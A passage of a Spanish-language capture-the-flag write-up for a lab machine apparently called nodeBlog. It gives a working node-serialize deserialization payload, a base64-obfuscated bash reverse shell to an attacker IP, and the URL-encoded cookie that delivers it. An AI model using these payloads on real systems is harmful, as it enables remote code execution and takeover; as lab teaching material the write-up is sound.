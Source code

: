 ```json
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'whoami \', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Pero en lugar de ejecutar el whoami, ejecutaremos una reverse shell, y ese payload lo URL encodearemos y lo pasaremos como cookie, si preguntas que por que a la cookie, es por que cuando analizamos el codigo de la aplicacion, la cookie se le pasa al metodo **unserialize**, entonces cuando la aplicacion deserialize la cookie, se estaria deserializando nuestro payload que esta haciendo uso de **IIFE** para ejecutar la funcion y darnos una reverse shell.

Nuestro payload quedaria asi:

```json
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDMgMD4mMQo=|base64 -d|bash',function(error,stdout,stderr){console.log(stdout)});}()"}
```
Date cuenta que la reverse shell esta en base64 y simplemente se decodifica, fue generada de esta forma:

```ruby
echo 'bash -i >& /dev/tcp/<ip>/443 0>&1' | base64
```

Esto si lo URL encodeamos queda algo como esto:

```ruby
%7B%22rce%22%3A%22_%24%24ND_FUNC%24%24_function%28%29%7Brequire%28%27child_process%27%29.exec%28%27echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNC80NDMgMD4mMQo%3D%7Cbase64%20-d%7Cbash%27%2Cfunction%28error%2Cstdout%2Cstderr%29%7Bconsole.log%28stdout%29%7D%29%3B%7D%28%29%22%7D
```

Y esa seria el valor de la cookie que ingresaremos, de esta forma:

![](/assets/img/nodeBlog/11.png)

Solo recargamos y si estamos en escucha tendremos una shell

## Flag de user

Si vemos que podemos ejecutar a nivel de sudoers, nos pedira una contraseña que no sabemos cual es:

```ruby
admin@nodeblog:/home$ sudo -l
[sudo] password for admin: 
```
